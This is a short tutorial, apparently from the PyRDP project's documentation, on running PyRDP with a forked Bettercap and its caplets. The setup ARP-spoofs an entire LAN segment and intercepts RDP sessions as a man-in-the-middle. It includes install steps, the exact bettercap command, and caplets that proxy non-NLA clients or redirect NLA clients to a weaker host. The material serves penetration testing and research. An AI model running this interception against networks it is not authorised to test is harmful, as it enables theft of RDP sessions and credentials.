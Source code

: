 # Run PyRDP alongisde Bettercap

Here is a short tutorial on how to combine the PyRDP and Bettercap to
redirect all RDP sessions on a LAN segment. By default, Bettercap's arp
spoofing module will spoof the entire subnet over a given interface. We
will spawn an instance of PyRDP for each incoming RDP connections if they
are in our target list, otherwise we will forward them.

## Requirements

1. PyRDP  
2. Our fork and branch of [Bettercap](https://github.com/GoSecure/bettercap/tree/rdp-mitm)
3. Our fork of [Caplets](https://github.com/GoSecure/caplets/)

## Setup

Install PyRDP by following these steps : https://github.com/GoSecure/pyrdp#installing

Install Bettercap by running these commands :

    sudo apt-get update
    sudo apt-get install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
    mkdir -p $GOPATH/src/github.com/bettercap/
    cd $GOPATH/src/github.com/bettercap/
    git clone https://github.com/GoSecure/bettercap.git -b rdp-mitm
    cd bettercap
    go get
    go build
    make build && sudo make install

Install Caplets by running these commands :

    mkdir -p ~/src/
    cd ~/src/
    git clone https://github.com/GoSecure/caplets.git
    cd caplets
    sudo make install

## Usage

Assuming that you installed PyRDP using a venv, you need to activate your PyRDP virtual environment:

    source venv/bin/activate

Start bettercap with :

    sudo bettercap -iface <interface> -caplet <caplet> -eval "set rdp.proxy.command $(which pyrdp-mitm.py)"

Basic example :

    sudo bettercap -iface wlp2s0 -caplet rdp-proxy/rdp-sniffer.cap -eval "set rdp.proxy.command $(which pyrdp-mitm.py)"

## Caplets

Caplets are basically a way to script bettercap's configuration. You can also use a caplet to better understand how to use a module.
You may modify a caplet to fine-tune the module, but you will need to reinstall it with `sudo make install` to apply the modifications.

We currently have 2 caplets. Read each caplet's source for further documentation and usage. Here's a quick rundown :

<dl>
  <dt>rdp-proxy/rdp-sniffer.cap</dt>
  <dd>The default caplet. Forwards every target to a PyRDP instance if they have disabled NLA.</dd>

  <dt>rdp-proxy/rdp-sniffer-nla-redirect.cap</dt>
  <dd>Will forward every target to a PyRDP instance if they have disabled NLA. Otherwise, redirect the client to a user-defined non-NLA host.</dd>
  <dd>Requires some configuration inside the caplet at ~/src/caplets/rdp-proxy/rdp-sniffer-nla-redirect.cap</dd>
  <dd>Don't forget to `sudo make install` after editing the caplet.</dd>
</dl>

Have fun!
